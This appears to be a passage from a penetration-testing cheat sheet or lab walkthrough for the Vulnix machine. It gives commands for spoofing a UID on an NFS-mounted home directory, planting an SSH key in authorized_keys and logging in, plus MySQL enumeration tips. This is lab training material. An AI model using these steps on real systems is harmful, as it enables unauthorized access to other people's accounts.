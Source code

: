- Create a fake vulnix account with a UID of 2008 on my machine (Kali Linux)

```
# useradd -u 2008 vulnix
```

- Switch user to vulnix, and create a .ssh directory

```
$ su vulnix
$ cd /mnt/vulnix
$ mkdir .ssh
```

- Switch user to root, and generate a SSH key pair (Kali Linux)

```
$ su root
$ ssh-keygen
$ cat /root/.ssh/id_rsa.pub
```

- Switch user to vulnix, and copy and paste the contents of /root/.ssh/id_rsa.pub to /mnt/vulnix/.ssh/authorized_keys

```
$ su vulnix
$ cd /mnt/vulnix/.ssh
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1rYFvo6Wh4j44p4s6WfDYb637m62zA0CwE5t9K6iKbosZMpeDBGP2q8C2O3yw2P9Dhv3jRPCutf1ruadaMxxiOY8Ook/3fwMcaueCAs0ThKCMRlnf0yzUnEHH7t82MrEghMnL4GfUcYlxIwo8d5jQe7umuJneYK786iDNEPaEajC45GQlrZWCzIWqs3B3vJBQ4FR766EHsmiKVWvQ35uR69/O39IePJQ8oSTF+PK0RoCtvmYt44jeqUO0NfYGeCGwqtYW/i+ILTOkW45bYRVjhmrJ2C+yjtK3bsmDiq28IT9STCFlkI7OqEfJkeYqBSJVqVqOkFFvx4+7fyTpchT/ > authorized_keys
```

- Login to vulnix's accounts via SSH

```
$ su root
$ ssh vulnix@192.168.1.132
```

Port 3306 (MYSQL)
-----------------

- Password Reuse

```
$ mysql -h <IP address> -u <username> -p
```

- Nmap NSE Scripts

```
$ ls -la /usr/share/nmap/scripts | grep "mysql"
```

- Exploit Version

```
$ searchsploit <term>
```
